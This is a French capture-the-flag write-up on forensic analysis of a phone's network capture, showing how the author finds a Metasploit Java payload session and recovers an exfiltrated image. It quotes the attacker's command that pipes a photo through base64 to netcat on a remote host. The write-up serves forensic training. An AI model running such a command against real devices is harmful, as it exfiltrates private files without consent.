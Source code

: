 # C3PO

Difficulté : :star:

Énoncé :

> Pour votre première analyse, on vous confie le téléphone du PDG de *GoodCorp*.
>
> Ce dernier est certain que les précieuses photos stockées sur son téléphone sont récupérées par un acteur malveillant.
>
> Vous décidez de mettre en place une capture réseau sur le téléphone, afin de voir ce qu'il en est...

Fichier :

- [capture.cap](./capture.cap)

### Essais infructueux

Le fichier est un peu long (72 000 paquets pour 7 minutes d’enregistrement). Je l'ouvre dans Wireshark et je commence par filtrer seulement les requêtes DNS pour chercher un domaine louche. Je vois `a.espncdn.com`. Pour moi, `espn` est un diminutif de `espion` donc je filtre les discussion avec cet hôte. C'est du HTTP, j'arrive à extraire un PNG... Et c'est le logo d'un média sportif x)

À côté de ça, des requêtes DNS AAAA vers 4 domaines sans aucun sens tels que `ltclalbmngxxfnk` ont lieu mais c'est beaucoup trop peu pour exfiltrer des données.



### Résolution

Manquant d'idée je tente la facilité :

```
$ strings capture.cap | grep -i fcsc
EVOPWM4JZra3yOcEM13BxP+rZP8Oph3AlEZyhh3l+H7jXR8xhS+1Y1IwfcScjmASMachmIKYgEtB
elgwWyhKML1ENvn0diLeVD7fK4NRmL5dytM2HojJ1ZfcSC63H6gTP4GYLJjaPh+MwvQyisxMjiHx
lRW2lxK0EuPZIkTR58Ov58EAVuoKkdcLULR4yBo8pLXc+DU0jDJ1hQrpJw3y39eT/o8e9actfCsc
18faSIJ5eagFBJPEl9Q2TKTIhzvKvqTIF8WXf0gwqdPkNBCTIJi0KfJvE8yu7gGK+qmisstFCSc
9HZAJMEEu/wTBJMmP05M91BmfL4imMCXSxFMWg8mFVx+J8GkxZd/SDBp3Zf/CMFcSC1pRYspFyWY
```

Le flag n'est pas en clair dans la capture mais on voit beaucoup de base64 ce qui est étrange. J'applique le filtre `frame contains elgwWyhKML1ENvn0diLeVD7fK4NRmL5dytM2HojJ1ZfcSC63H6gTP4GYLJjaPh` pour voir d'où cela provient. Je vois que c'est un push tcp vers `172.18.0.1:1338`. En appliquant le filtre `ip.addr == 172.18.0.1` on voit qu'il y a énormément d'échange vers le port 1337 et 1338 de cet hôte. Cela représente 20% des paquets du fichiers donc j'aurais peut-être dû me balader d'avantage dans le fichier avant de filtrer seulement les requête DNS...

On fait clic droit sur une trame TCP vers `172.18.0.1:1337` puis *Suivre... Flux TCP* et on voit des données contenant entre autre `Metasploit-JavaPayload`. On fait de même avec la première trame vers le port 1338 et on voit cela :

```
cat /sdcard/DCIM/flag.png | base64 | nc 172.18.0.1 1338
```

On affiche la communication TCP suivante sur le port 1338 et on voit un gros paquet de base64 du client vers le serveur. On clique sur *Save As...* pour enregistrer cela et le décoder :

```
base64 -d flag.b64 > flag.png
```

On récupère une jolie image :

![flag](flag.png)


